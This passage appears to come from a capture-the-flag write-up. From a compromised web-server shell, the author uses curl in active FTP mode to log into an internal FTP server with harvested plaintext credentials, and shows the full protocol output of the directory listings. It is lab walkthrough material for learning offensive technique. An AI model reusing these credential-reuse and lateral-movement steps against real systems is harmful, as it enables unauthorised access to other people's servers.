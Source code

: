 Running it will display the error message "Upload failed", which is a sign that the authentication was successful. Unfortunately, `ftp`, `nc` or `telnet` are not available in the container and we have to use `curl` (make sure you use the `-P -` flag to force the active mode).

~~~
www-data@Jeff:/var/www/html/wp-admin$ curl -s -v -P - 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/'
<'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/'
* Expire in 0 ms for 6 (transfer 0x55e170f67f50)
*   Trying 172.20.0.1...
* TCP_NODELAY set
* Expire in 200 ms for 4 (transfer 0x55e170f67f50)
* Connected to 172.20.0.1 (172.20.0.1) port 21 (#0)
< 220 Welcome to Jeff's FTP service.
> USER backupmgr
< 331 Please specify the password.
> PASS SuperS1ckP4ssw0rd123!
< 230 Login successful.
> PWD
< 257 "/" is the current directory
* Entry path is '/'
> EPRT |1|172.20.0.6|48235|
* ftp_perform ends with SECONDARY: 1
< 200 EPRT command successful. Consider using EPSV.
* Connect data stream actively
> TYPE A
< 200 Switching to ASCII mode.
> LIST
< 150 Here comes the directory listing.
* Maxdownload = -1
* Preparing for accepting server on data port
* Checking for server connect
* Ready to accept data connection from server
* Connection accepted from server
{ [63 bytes data]
* Remembering we are in dir ""
< 226 Directory send OK.
* Connection #0 to host 172.20.0.1 left intact
drwxr-xr-x    2 1001     1001         4096 May 18 16:14 files
~~~

The `files` directory is empty:

~~~
www-data@Jeff:/var/www/html/wp-admin$ curl -s -v -P - 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
</backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
* Expire in 0 ms for 6 (transfer 0x562eb8f80f50)
*   Trying 172.20.0.1...
* TCP_NODELAY set
* Expire in 200 ms for 4 (transfer 0x562eb8f80f50)
* Connected to 172.20.0.1 (172.20.0.1) port 21 (#0)
< 220 Welcome to Jeff's FTP service.
> USER backupmgr
< 331 Please specify the password.
> PASS SuperS1ckP4ssw0rd123!
< 230 Login successful.
> PWD
< 257 "/" is the current directory
* Entry path is '/'
> CWD files
* ftp_perform ends with SECONDARY: 0
< 250 Directory successfully changed.
> EPRT |1|172.20.0.6|41765|
< 200 EPRT command successful. Consider using EPSV.
~~~